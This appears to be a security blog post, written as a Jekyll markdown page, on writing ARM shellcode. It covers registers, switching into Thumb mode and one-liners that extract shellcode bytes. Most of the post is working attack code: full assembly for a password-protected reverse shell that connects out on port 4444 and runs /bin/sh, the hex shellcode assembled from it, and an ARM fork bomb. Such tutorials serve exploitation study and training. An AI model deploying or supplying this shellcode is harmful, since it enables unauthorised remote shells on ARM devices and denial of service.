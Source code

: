```yaml
---
layout: post
title: Writing ARM Shellcode
---
```


**PWN** | First post that teaches you how to write shellcodes in ARM.

## Shellcode Writing Basics

**Registers:**
- `R0-R10` : General Purpose Register
- `R11`    : Frame Pointer (FP)
- `R12`    : Intra Procedural Call (IPC)
- `R13`    : Stack Pointer (SP)
- `R14`    : Link Register (LR)
- `R15`    : Program Counter/Instruction Pointer (PC)


ARM has 2 modes, the Thumb mode has instructions in 16 bits and the ARM mode has instructions in 32 bits.

to switch in Thumb mode here is what you have to do : 
```asm
 add r0, pc, #1
 bx  r0
// le code qui suivera sera en thumb mode
```
in a first time we add 1 to PC (Program Counter) then we put the result in r0. For the 2nd instruction we use BX (Branch & Exchange) in r0. If LSB=1 (low weight bit) then we are in thumb mode.

![](https://i.imgur.com/z7tNUe5.png)




several techniques exist to parse a shellcode:

1 - usage of awk
```bash
for i in $(objdump -d hello | grep "^ "|awk -F"[\t]" '{print $2}'); do echo -n ${i:6:2}${i:4:2}${i:2:2}${i:0:2};done| sed 's/.\{2\}/\\x&/g'
```
2 - usage of regex + **addition of double quotes**
```bash
objdump -d hello |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
3 - usage of **hexdump** and **objcopy**
```bash
objcopy -O binary fichier.bin fichier.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' fichier.dump
```

![](https://i.imgur.com/VUjjIrl.png)



### Reverse Shell in ARM

![](https://i.imgur.com/xbUxAgq.png)

here is how to make a structure in ARM : 

```asm
adr r1, _sockaddr @ sockaddr struct 
...

_sockaddr: 
 	.hword 2 @ sin_family 
 	.hword 0x5c11 // sin_port 4444
 	.word 0x100007f @ sin_addr 127.0.0.1
 	.byte 0,0,0,0,0,0,0,0 @ sin_zero 
```
then we use dup2() to redirect the standard outputs.

### Password-Protected Reverse Shell

```asm
.section .text
.global _start
_start:

.arm
    add   r3, pc, #1
    bx    r3

.thumb

    mov   r0, #2
    mov   r1, #1
    eor   r2, r2
    mov   r7, #200
    add   r7, #81
    svc   #1
mov   r10, r0 
    adr   r1, target
    strb  r2, [r1, #1]
    strb  r2, [r1, #5]
    strb  r2, [r1, #6] 
    mov   r2, #16
    add   r7, #2  
    svc   #1
    push  {r1}
    mov   r1, sp
    mov   r2, #4
    mov   r7, #3
    .read_pass:
        mov   r0, r10
        svc   #1
    .check_pass:
        ldr   r3, pass
        ldr   r4, [r1]
        eor   r3, r3, r4
    bne .read_pass
    mov   r1, #2 
    mov   r7, #63    
    .loop_stdio:
        mov   r0, r10
        svc   #1
        sub   r1,#1
    bpl .loop_stdio
    adr   r0, command
    eor   r2, r2
    eor   r1, r1
    strb  r2, [r0, #7]
    mov   r7, #11 
    svc   #1

target:
    .ascii "\x02\xff"  
    .ascii "\x11\x5c"
    
    .byte 127,255,255,1 
    
command: .ascii "/bin/sh?"
pass: .ascii "RistBS=aker"
```

if you didn't know, the registers from r0 to r10 are general purpose registers, the register r7 is used to identify the NR of the syscall.

This ascii character `x02\xff\x11\x5c` shows that we are using the TCP proto in IPv4 on port 4444.

**`.read_pass` & `.check_pass` Function:**

for the read function we will just use the C Function: `read(sourcefd, destbuffer, amount)`

- `eor r3, r3, r4` = *r3=r3^r4*
- `bne .read_pass` (Department if Not Equal) equivalent to JNE in x86. This instruction will jump to reading the mdp if it is not equal to the first args passed in r1. (address of r1 retrieved and stored in r4)


```bash
as ARM-reverse-shell.s -o ARM-reverse-shell.o && ld -N ARM-reverse-shell.o -o ARM-reverse-shell && objcopy -O binary ARM-reverse-shell ARM-reverse-shell.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' ARM-reverse-shell.dump

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x82\x46\x0e\xa1\x4a
\x70\x4a\x71\x8a\x71\x10\x22\x02\x37\x01\xdf\x02\xb4\x69\x46\x04\x22\x03\x27\x50\x46\x01\xdf\x0b\x4b\x0c\x68\x63\x40\xf9\xd1\x02\x21\x3f\x27\x50\x46\x01\xdf\x01\x39\xfb\xd5\x04\xa0\x52\x40\x49\x40\xc2
\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\x7f\xff\xff\x01\x2f\x62\x69\x6e\x2f\x73\x68\x3f\x53\x35\x39\x21
```

> Source : https://github.com/alanvivona/pwnshop/blob/master/src/0x15-ARM-shellcode/ARM-reverse-shell-with-auth.s


### Final test : ForkBomb


| NR | Syscall Name | %r7      |  arg0 (%r0)       |
| ---- |:----------------------- | --- | ----
| 2      | fork | 0x02 |    - |

```asm
.text
.global .start

.start:
	.code 32   
	add r3, pc, #1	
	bx r3

	.code 16
	.loop:
		eor r7, r7 
		add r7, #2
		svc #1
		mov r8, r8
		bl .loop
```

![](https://i.imgur.com/GcsZD2P.png)


### useful ressources : 
- https://www.youtube.com/watch?v=9tx293lbGuc
- https://www.youtube.com/watch?v=c_jUELOScLc

